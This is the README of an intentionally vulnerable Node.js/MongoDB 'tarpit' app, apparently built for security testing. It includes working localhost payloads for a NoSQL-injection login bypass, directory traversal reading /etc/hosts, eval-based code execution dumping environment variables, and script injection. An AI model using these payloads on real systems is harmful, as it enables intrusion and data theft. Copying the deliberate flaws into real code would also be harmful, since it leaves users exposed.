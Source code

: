 # NodeJS Tarpit

An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Getting started

:crossed_fingers::crossed_fingers::crossed_fingers: I hope all goes as smooth as possible

### Pre-requisites

- [NodeJS](https://nodejs.org/en/) Get the latest version
- [MongoDB Community Edition](https://docs.mongodb.com/manual/administration/install-community/) Install Mongodb Community Edition and run setup provided in documentation

### Setup

start mongoDB server (`sudo mongod`)
start mongoDB client (`mongo`)
Insert user rows using the query

```
use tarpit
```

```
db.tarpit.insertOne({ fname: 'f', lname: 'l', passportnum: 'aa', address1: 'a1', address2: 'a2', zipCode: 1234, userCreditCardInfo: 'a8723jjas9892892', password: 'p', username: 'u'})
```

### Installation

Run `npm install` to install all dependencies for the project to run

### Run Application

Run `npm start` to start the application and you will provided a local address to open in browser

## Exploits

### No SQL Injection

Login can be exploited with the following query as the username and password are not validated

```bash
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

### Directory Traversal Vulnerability

Can get access to any file on the server using the command

```bash
http GET http://localhost:8089/api/v1/image-lookup image=="/etc/hosts"
```

### Remote Code Execution

RCE exploting `eval` on server

```bash
http GET http://localhost:8089/user-input userInput=="console.log(process.env)"
```

Injecting script onto user browser

```bash
http GET http://localhost:8089/user-input userInput=="alert('You system is under our control now.')"
```

## Vulnerabilities

- [x] [directory traversal](src/Controllers/ImageLookup.js)
- [x] [nosql injection](src/Controllers/Login.js)
- [x] [remote code execution](src/views.js): [UserInput](src/Views/UserInput.pug)
- [x] [data leak](src/Controllers/Login.js)
